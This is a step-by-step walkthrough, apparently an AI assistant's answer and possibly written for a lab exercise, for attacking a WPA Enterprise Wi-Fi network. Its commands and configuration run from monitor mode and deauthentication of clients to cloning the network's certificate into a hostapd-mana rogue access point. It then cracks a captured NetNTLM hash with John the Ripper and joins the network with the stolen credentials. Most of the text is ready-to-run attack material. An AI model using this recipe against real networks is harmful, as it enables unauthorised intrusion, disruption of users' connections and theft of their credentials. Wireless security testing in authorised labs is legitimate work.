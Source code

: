 Here are the steps for attacking a **WPA Enterprise** network based on the scenario you've provided. I'll mimic the process from start to finish, including the required tools and commands:

---

### **Step 1: Enable Monitor Mode**
1. **Turn off interfering processes**:
   ```bash
   sudo airmon-ng check kill
   ```
2. **Put your wireless adapter in monitor mode**:
   ```bash
   sudo airmon-ng start wlan0
   ```

---

### **Step 2: Identify Target Network**
1. **Scan for nearby Wi-Fi networks**:
   ```bash
   sudo airodump-ng wlan0
   ```
   - Identify the **Channel (CH)**, **BSSID**, **ESSID**, and **Client MAC** of the target network.

2. **Focus the scan on a specific network**:
   ```bash
   sudo airodump-ng -c <CHANNEL_NUMBER> -w <FILENAME> wlan0
   ```

---

### **Step 3: Capture the Handshake (Deauthentication Attack)**
1. **Deauthenticate the client to capture the WPA handshake**:
   In a new terminal, execute:
   ```bash
   sudo aireplay-ng -0 1 -a <BSSID> -c <STATION_MAC> wlan0
   ```
   - `-a` is the AP's BSSID.
   - `-c` is the client's MAC address.

2. **Wait for the handshake to be captured**:
   - Press `Ctrl+C` in the first terminal once you see the handshake captured.

3. **Stop monitor mode** after capturing the handshake:
   ```bash
   sudo airmon-ng stop wlan0
   ```

---

### **Step 4: Inspect the Handshake with Wireshark**
1. **Open the `.cap` file with Wireshark**:
   ```bash
   wireshark <filename>.cap
   ```

2. **Filter for TLS Handshake**:
   - Use the Wireshark filter:
     ```bash
     tls.handshake.certificate
     ```

---

### **Step 5: Extract and Analyze the Certificate**
1. **Right-click the first certificate in Wireshark and export it**:
   - Export it as `.DER` (DER-encoded format).
   
2. **Convert the certificate from DER format to PEM**:
   ```bash
   openssl x509 -inform der -in cert.der -text
   ```

---

### **Step 6: Configure the Fake Access Point (AP)**
1. **Edit the CA and Server certificate configurations**:
   - **Edit the CA configuration file**:
     ```bash
     sudo nano /etc/freeradius/3.0/certs/ca.cnf
     ```
   - **Edit the Server configuration file**:
     ```bash
     sudo nano /etc/freeradius/3.0/certs/server.cnf
     ```
     - Example entries:
       - Issuer: `/etc/freeradius/3.0/certs/ca.cnf`
       - Subject: `/etc/freeradius/3.0/certs/server.cnf`
   
2. **Build the certificates**:
   ```bash
   cd /etc/freeradius/3.0/certs
   sudo rm dh
   sudo make
   ```

---

### **Step 7: Create Fake AP Configuration File**
1. **Create and configure the `mana.conf` file**:
   ```bash
   sudo nano /etc/hostapd-mana/mana.conf
   ```
   Example `mana.conf` content:
   ```
   # SSID of the AP
   ssid=Playtronics # (change this to the same SSID as the target)

   # Network interface and driver
   interface=wlan0
   driver=nl80211

   # Channel settings
   channel=1 # (use the same channel as the target network)
   hw_mode=g

   # Enable EAP (WPA Enterprise)
   ieee8021x=1
   eap_server=1
   eapol_key_index_workaround=0

   # Set certificate paths
   ca_cert=/etc/freeradius/3.0/certs/ca.pem
   server_cert=/etc/freeradius/3.0/certs/server.pem
   private_key=/etc/freeradius/3.0/certs/server.key
   private_key_passwd=whatever
   dh_file=/etc/freeradius/3.0/certs/dh

   # WPA settings
   wpa=3
   wpa_key_mgmt=WPA-EAP
   wpa_pairwise=CCMP TKIP
   mana_wpe=1
   mana_eapsuccess=1
   mana_eaptls=1
   ```

2. **Create EAP user file**:
   ```bash
   sudo nano /etc/hostapd-mana/mana.eap_user
   ```
   Example contents for `mana.eap_user`:
   ```
   * PEAP,TTLS,TLS,FAST
   "t" TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2 "pass" [2]
   ```

---

### **Step 8: Start the Fake AP**
1. **Start the fake AP** using `hostapd-mana`:
   ```bash
   sudo hostapd-mana /etc/hostapd-mana/mana.conf
   ```

---

### **Step 9: Launch the Deauthentication Attack**
1. **Run deauthentication attack using `aireplay-ng`**:
   ```bash
   sudo aireplay-ng -0 0 -a <AP_MAC> -h <CLIENT_MAC> wlan0
   ```
   or
   ```bash
   sudo aireplay-ng --deauth 0 -a <AP_MAC> wlan0
   ```

---

### **Step 10: Crack the Captured Hash**
1. **Crack the hash using John the Ripper**:
   ```bash
   echo cosmo:$NETNTLM$ceb69885c656590c$7279f65aa49870f45822c89dcbdd73c1b89d377844caead4 >> hash
   john hash -w /usr/share/wordlist/whatever.txt
   ```

---

### **Step 11: Configure the Client for WPA Enterprise**
1. **Create a `wifi.conf` file to configure the client**:
   ```bash
   sudo nano wifi.conf
   ```
   Example configuration for `wifi.conf`:
   ```
   network={
   ssid="NetworkName"  # (change this to the target network name)
   scan_ssid=1
   key_mgmt=WPA-EAP
   identity="Domain\\username"  # (use the domain and username of the client)
   password="password"  # (use the appropriate password)
   eap=PEAP
   phase1="peaplabel=0"
   phase2="auth=MSCHAPV2"
   }
   ```

2. **Connect using `wpa_supplicant`**:
   ```bash
   sudo wpa_supplicant -i wlan0 -c wifi.conf
   ```

3. **Obtain an IP address**:
   ```bash
   sudo dhclient wlan0
   ```

---

With these steps, you have successfully attacked a WPA Enterprise network by capturing the handshake, extracting the certificate, setting up a fake AP, and using it to perform a deauthentication attack and further analysis.
